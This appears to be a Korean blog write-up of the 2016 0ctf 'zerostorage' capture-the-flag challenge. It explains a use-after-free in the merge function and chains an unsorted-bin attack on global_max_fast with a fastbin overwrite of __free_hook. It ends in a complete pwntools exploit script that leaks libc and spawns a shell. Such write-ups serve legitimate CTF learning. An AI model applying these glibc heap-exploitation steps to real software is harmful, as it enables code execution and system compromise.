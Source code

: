 ```yaml
---
layout: post
title: "[2016 0ctf] zerostorage 풀이"
date: 2018-09-27 04:44
categories: "[Pwn]CTF"
tags: rotles98
---
```


>### Try our super secret storage service - ZeroStorage
### Notice: Latest Ubuntu 14.04.4 LTS, with 3.13.0-79-generic kernel.
### 202.120.7.206 10101

hoyoyoyoyoyoyoyo

- - -
# 0x00. 분석

{: refdef: style="text-align: center;"}
![checksec](/img/2016_0ctf/zerostorage/01.png)
{: refdef}

으악

취약점은 `func_merge`에서 발생한다.

두 `entry`를 합치는 코드인데 코드 자체는 잘 짰으나 `from_entry`와 `to_entry`가 같은지 검사하지 않는다.

`realloc`을 하는데 `realloc`을 하고도 같은 `chunk`를 가리켜야 하니까 `len`은 `0x44`이하로 해야한다. 그럼 `free`를 하고도 `entry_list`엔 주소가 남아있어서 **uaf**가 발생한다.

나머진 귀찮다.

- - -
# 0x01. 공격 방법

`unsorted_bin_attack`을 하면 원하는 주소에 `main_arena+88`의 주소를 넣을 수 있다. 이게 `libc_leak` 정도만 쓰일 줄 알았는데 이 문제는 좀 띠용하게 사용했다.

`fastbin`의 범위는 `global_max_fast`보다 작은 크기라서 기본적으론 `0x80`인가 들어가있다. 그런데 `unsorted_bin_attack`으로 이 값을 정확히 어떤 값인진 몰라도 `main_arena+88`을 넣어버리면 거의 모든 `chunk`를 `fastbin` 마냥 사용할 수 있게 된다.

이 문제에서 할당받을 수 있는 최소 크기가 `0x90`이라 `small_bin`이었는데 이젠 `fastbin`이다.

그리고 `free_hook`를 뒤져보니까 `0x200`으로 인식하게 할 수 있는 데이터가 있어서 `0x200`짜리 `fastbin`으로 `fastbin_dup_into_stack`해서 `free_hook`를 덮었다.

- - -
# 0x02. 익스플로잇

```python
from pwn import *
#context.log_level = "debug"

HOST = "192.168.0.19"
#HOST = "202.120.7.206"
PORT = 4444
#PORT = 10101

s = remote(HOST, PORT)
pause()

elf = ELF("./zerostorage")
libc = ELF("./libc.so.6")

libc_off = 0x3c4b78
system_off = libc.symbols["system"]
free_hook_off = 0x3c67a8
global_max_fast_off = 0x3c67f8

def func_insert(content):
    s.recvuntil("Your choice: ")
    s.sendline("1")

    s.recvuntil("Length of new entry: ")
    s.sendline(str(len(content)))

    s.recvuntil("Enter your data: ")
    s.send(content)

def func_update(index, content):
    s.recvuntil("Your choice: ")
    s.sendline("2")

    s.recvuntil("Entry ID: ")
    s.sendline(str(index))

    s.recvuntil("Length of entry:")
    s.sendline(str(len(content)))

    s.recvuntil("Enter your data: ")
    s.send(content)

def func_merge(from_index, to_index):
    s.recvuntil("Your choice: ")
    s.sendline("3")

    s.recvuntil("Merge from Entry ID: ")
    s.sendline(str(from_index))

    s.recvuntil("Merge to Entry ID: ")
    s.sendline(str(to_index))

def func_delete(index):
    s.recvuntil("Your choice: ")
    s.sendline("4")

    s.recvuntil("Entry ID: ")
    s.sendline(str(index))

def func_view(index):
    s.recvuntil("Your choice: ")
    s.sendline("5")

    s.recvuntil("Entry ID: ")
    s.sendline(str(index))

    s.recvuntil("\n")

func_insert("A" * 0x44) # 0
func_insert("A" * 0xfc) # 1

func_merge(0, 0) # 0 -> 2

func_view(2)
libc_leak = u64(s.recv(8))
s.recvuntil("\n")

libc_base = libc_leak - libc_off
libc_system = libc_base + system_off
libc_free_hook = libc_base + free_hook_off
global_max_fast = libc_base + global_max_fast_off

print
log.info("libc_base : " + hex(libc_base))
log.info("libc_free_hook : " + hex(libc_free_hook))
log.info("libc_system : " + hex(libc_system))
log.info("global_max_fast : " + hex(global_max_fast))
print

func_update(2, ("A" * 0x8 + p64(global_max_fast - 0x10)).ljust(0x88, "A")) # unsorted_bin_attack
func_insert("/bin/sh\0".ljust(0x88, "A")) # 0

func_merge(1, 1) # 1 -> 3
func_update(3, p64(libc_free_hook - 0x59).ljust(0x1f8, "A"))

func_insert("A" * 0x1f8) # 1
func_insert(("\x00" * 0x49 + p64(libc_system)).ljust(0x1f8, "\x00"))

func_delete(0) # system("/bin/sh")

s.interactive()
```
